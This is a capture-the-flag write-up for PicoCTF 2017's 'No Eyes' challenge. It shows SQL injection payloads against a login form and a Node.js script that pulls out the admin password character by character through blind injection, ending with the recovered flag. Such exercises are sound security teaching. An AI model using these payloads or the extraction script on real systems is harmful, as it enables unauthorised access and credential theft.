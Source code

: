 # PicoCTF2017
## Writeup for No Eyes

    The [website](http://shell2017.picoctf.com:16012/) isn't really me much, but you can still get the admin password, right?
    
And a quick look at the hints:

    Sometimes an error message can be just as useful.
    
The website visibly has nothing but a login page.

So let's try some error messages. First, We'll login with no information at all.

    User not Found.

Okay, so it looks like the program separately checks for username and password. To confirm this, We'll login with my username as "admin" and my password as some random characters.

    Incorrect Password.
    
Great! Now let's try some basic SQL injection to see what happens.  
We'll enter the username as something random, use an ending single quote, throw in a OR 1=1, then comment off the rest. Like this:  

    abcdef' OR 1=1 -- 

This means that, if our SQL injection is valid, the username will return valid. It will return valid because anything combined with an OR 1=1 would logically return true. After logging in with this, we get a very important error message: 

    Incorrect Password.

Why is this important? Because this means that the username query returned true, and therefore our SQL injection worked. If the website returned "User not Found", then the SQL injection would not have worked.  

The next thing we'll do is enter some code that will break the SQL injection in hopes of getting a specific error message. To do that, we can throw in an ending single quote, but not comment off the rest. For the username, we can literally just type:  

    test' 
    
And that gives us the error:  

    There Was An Error With Your Request:
    select * from users where user = 'test'';

Great! This tells us that the databse we want to pull from is named "users", and the field for username is "user". Using that naming system, we can assume that the field for password is "pass".  

The next step is to find out what database engine they use for SQL. Different SQL database engines have different methods. Because the last question used sqlite, I kind of just guessed they would use sqlite for this one as well. To confirm, I ran a simple union that would work with sqlite. Google gives us this nice page: (https://sqlite.org/lang_corefunc.html)[https://sqlite.org/lang_corefunc.html].  

Remember that we are looking for a "Incorrect Password" error message, because that would mean that the username query returned true. To test if the database engine is sqlite, I used this as the username:  

    test' and 1=0 union all select * from users where substr(user,1,3)="adm" -- 
    
And we get the error message of "Incorrect Password". So let's break this down. Before the union, we pass in a username of test combined with an and 1=0. Because 1 will never equal 0, the first part of the injection will not give any results. This is important because if the first part of the injection did return a result, then the sql code would always pass no matter what is after the union. We only want the sql code to pass if the second part of the code passes. So essentialy, we are unioning nothing with a query that will find if the first 3 letters of any users username is "adm" (the first 3 letters of admin), and if that returns a result, then we will get a "Incorrect Password" error, and therefore proves that the first part is true.  

I'm sure you can see where this is going... Instead of checking the substring of the username, we can check the substring of the password. We can start with substr(pass,1,1)="some letter", and guess until we get an "Incorrect Password". Once we get an incorrect password, we know what the first letter is, then we can move onto substr(pass,1,2)="two letters". So on and so forth. You could go through the painful process of trying to manually guess all the letters (which I ashamedly did...) but for the sake of this writeup, let's write a program that will do it for us.  

I'm a JavaScript and Node.js fan. This code is written in JavaScript, but is well commented so it should be understandable for any programmer. Before writing a program however, we need to find out what data to post and where. Viewing the source of the web page, I found this for the form:  

    <form class="form-signin" method="post">
        <h4>Welcome back.</h4>
        <input type="text" name="username" class="form-control input-sm chat-input" placeholder="username" />
        </br>
        <input type="text" name="password" class="form-control input-sm chat-input" placeholder="password" />
        </br>
        <div class="wrapper">
            <span class="group-btn">     
                <button class="btn btn-primary btn-md" type="submit">login</button>
            </span>
        </div>
    </form>
    
So the username has the name "username", the password has the name "password", and the location of the post is just root (/). Now, let's write the program.  

    // To let us use constants and lets. If you are not using JavaScript, this is irrelevant
    'use strict'

    // Request is our package for sending post requests with our login data.
    const request = require('request')
    const URL = 'http://shell2017.picoctf.com:16012/'

    // We make a string of all characters Iwe think will be in the password. We then split it by nothing to make it into an array.
    // const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzyABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_[](){}'.split('')
    // These characters took trial and error to get. I started with only lowercase letters, when that didn't give me what
    // I wanted, I added numbers and underscores. Luckily, that was enought to get the flag.
    const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzy1234567890_'.split('')

    /*
     * Here is our logic:
     * We will send a request with the password starting at one letter.
     * Whichever request is successful will build off of what it sent
     */
    for (let i = 0; i < acceptableCharacters.length; i++) {
      makePost(acceptableCharacters[i])
    }

    // Sends a post with the current guess. If the guess is successful, it logs the guess,
    // then makes more posts with letters added onto that guess.
    function makePost (guess) {
      request.post({
        url: URL,
        form: { // I got the name of the fields to be sent by viewing the source of the login page, and checking the "name" option of the textboxes.
          username: 'test\' and 1=0 union all select * from users where substr(pass,1,' + guess.length + ')="' + guess + '" -- ',
          password: ''
        }
      }, function (err, res, body) {
        if (isValidPost(body)) {
          console.log(guess)
          for (let i = 0; i < acceptableCharacters.length; i++) {
            makePost(guess + acceptableCharacters[i])
          }
        }
      })
    }

    // Determines if the post is valid by checking if the response string contains the words "Incorrect Password"
    // However, when a user isn't found, the error message is "User not found", so I shortened the words to search for
    // down to just "Inco"
    function isValidPost (res) {
      if (res) {
        return res.indexOf('Inco')>-1
      } else {
        // If there is no reason, the server probably crashed or something.
        console.log('Timeout. Try again.')
      }
    }

After letting that code run for a good minute or so, I get the following:  

    n
    no
    not
    not_
    not_a
    not_al
    not_all
    not_all_
    not_all_e
    not_all_er
    not_all_err
    not_all_erro
    not_all_error
    not_all_errors
    not_all_errors_
    not_all_errors_s
    not_all_errors_sh
    not_all_errors_sho
    not_all_errors_shou
    not_all_errors_shoul
    not_all_errors_should
    not_all_errors_should_
    not_all_errors_should_b
    not_all_errors_should_be
    not_all_errors_should_be_
    not_all_errors_should_be_s
    not_all_errors_should_be_sh
    not_all_errors_should_be_sho
    not_all_errors_should_be_show
    not_all_errors_should_be_shown
    not_all_errors_should_be_shown_
    not_all_errors_should_be_shown_5
    not_all_errors_should_be_shown_59
    not_all_errors_should_be_shown_599
    not_all_errors_should_be_shown_599b
    not_all_errors_should_be_shown_599bf
    not_all_errors_should_be_shown_599bfc
    not_all_errors_should_be_shown_599bfc4
    not_all_errors_should_be_shown_599bfc4e
    not_all_errors_should_be_shown_599bfc4ee
    not_all_errors_should_be_shown_599bfc4ee4
    not_all_errors_should_be_shown_599bfc4ee41
    not_all_errors_should_be_shown_599bfc4ee419
    not_all_errors_should_be_shown_599bfc4ee4197
    not_all_errors_should_be_shown_599bfc4ee4197f
    not_all_errors_should_be_shown_599bfc4ee4197fd
    not_all_errors_should_be_shown_599bfc4ee4197fdc
    not_all_errors_should_be_shown_599bfc4ee4197fdc5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5e
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed936
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9361
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f51
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f515
    
Obviously the last one will be our flag!
